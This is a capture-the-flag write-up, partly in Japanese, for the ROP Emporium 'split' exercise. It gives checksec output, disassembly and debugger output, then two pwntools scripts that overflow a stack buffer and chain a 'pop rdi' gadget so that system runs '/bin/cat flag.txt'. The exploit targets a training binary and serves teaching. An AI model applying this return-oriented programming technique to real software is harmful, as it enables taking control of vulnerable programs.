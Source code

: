# split(ROP Emporium 2)

### checksec
```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

### Solution
`usefulFunction`: `system('/bin/ls')`を実行
```asm
0000000000400742 <usefulFunction>:
  400742:	55                   	push   rbp
  400743:	48 89 e5             	mov    rbp,rsp
  400746:	bf 4a 08 40 00       	mov    edi,0x40084a
  40074b:	e8 10 fe ff ff       	call   400560 <system@plt>
  400750:	90                   	nop
  400751:	5d                   	pop    rbp
  400752:	c3                   	ret
  400753:	66 2e 0f 1f 84 00 00 	cs nop WORD PTR [rax+rax*1+0x0]
  40075a:	00 00 00 
  40075d:	0f 1f 00             	nop    DWORD PTR [rax]
```
`/bin/cat flag.txt` が `0x601060`にある
```shell
pwndbg> search -t string "/bin/cat flag.txt"
Searching for string: b'/bin/cat flag.txt\x00'
split           0x601060 '/bin/cat flag.txt'
```

after read, stack:
```
00:0000│ rsi rsp 0x7fffffffdc40 ◂— 0xa6161616161 /* 'aaaaa\n' */
01:0008│-018     0x7fffffffdc48 ◂— 0
... ↓            2 skipped
04:0020│ rbp     0x7fffffffdc60 —▸ 0x7fffffffdc70 ◂— 1
05:0028│+008     0x7fffffffdc68 —▸ 0x4006d7 (main+64) ◂— mov edi, 0x400806
06:0030│+010     0x7fffffffdc70 ◂— 1
07:0038│+018     0x7fffffffdc78 —▸ 0x7ffff7dd8d68 (__libc_start_call_main+120) ◂— mov edi, eax
```

ROP gadget
```
0x00000000004007c3 : pop rdi ; ret
```

#### Strategy
1. push `0x601060` to `rdi`
2. call `0x40074b` (`usefulFunction`)

### Script
```python
from pwn import *

conn = process('./split')

payload = b'A'*40
payload += p64(0x4007c3)
payload += p64(0x601060)
payload += p64(0x40074b)

conn.sendafter('> ', payload)
conn.interactive()
```

pwntoolsの`ELF`を使うと
```python
from pwn import *

elf = ELF('./split')
rop = ROP(elf)

conn = process('./split')

print(type(rop.rdi.address))

payload = b'A'*40
payload += p64(rop.rdi.address)
payload += p64(next(elf.search(b'/bin/cat flag.txt')))
payload += p64(0x40074b)

conn.sendafter('> ', payload)
conn.interactive()
```